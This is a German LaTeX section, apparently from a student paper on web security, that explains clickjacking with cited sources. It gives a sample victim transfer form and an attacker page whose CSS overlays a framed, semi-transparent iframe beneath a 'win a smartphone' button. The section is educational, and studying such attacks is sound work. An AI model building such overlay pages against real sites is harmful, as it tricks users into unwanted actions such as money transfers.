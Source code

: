 Clickjacking ist der Versuch, den Nutzer dazu zu bringen, auf schädliche Links zu klicken, die sich in scheinbar harmlosen Videos, Bildern oder Artikeln verstecken. Nutzer können über einen ''überlagerten'' Link auf eine infizierte Webseite oder Spams weitergeleitet werden. Beim Clickjacking kann ein Nutzer auch dazu gebracht werden, unwissentlich Werbung oder schädliche Inhalte auf seiner Social Media-Seite zu posten\cite{cj16}.

\textbf{\textit{Szenario 1:}}

Bei diesem HTML-Code gibt es nur ein Formular mit einem Absenden-Button. Wenn man auf diesen Button drückt, wird die Aktion \texttt{''dotransfer''} ausgeführt, indem der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.\\

\begin{lstlisting}
<html>
	<head>
		<title>Opferseite</title>
	</head>
	<body>
		<form action="/dotransfer" method="post" />
			<input type="hidden" value="1000" name="amount" />
			<input type="hidden" value="[RND-ID]" name="csrftoken" />
			<input type="submit" value="submit" />
		</form>
	</body>
</html>
\end{lstlisting}


Durch unten geschriebene HTML-Code wird eine zweite Seite erstellt, welche die erste Seite einbindet\cite{cjd13}.;\\

\begin{lstlisting}
<html>
	<head>
		<title>Hack</title>
	</head>
	<body>
		<button id="clickme"/>Gewinne ein Smartphone</button>
		<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
\end{lstlisting}

Es wird jetzt noch ein wenig CSS gebraucht, um das Iframe halbdurchsichtig zu machen, und den \texttt{clickme} Button über den Absenden-Button des Iframes zu legen\cite{cjd13}.\\

\begin{lstlisting}
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%;
	height: 100%;
	opacity: 0.5;
}
\end{lstlisting}

Im Endeffekt sieht der Benutzer nur noch den Button mit der Aufschrift „Gewinn ein Smartphone“. Darüber liegt jedoch das unsichtbare Iframe. Möchte der Benutzer den Gewinn ergattern betätigt er nicht den Gewinnbutton, sondern den Absenden-Button im Iframe, da dieser über dem Gewinn-Button liegt. Damit wird die Aktion im Hintergrund ausgeführt, und der Hacker hat seiner Ziel erreicht\cite{cjd13}.
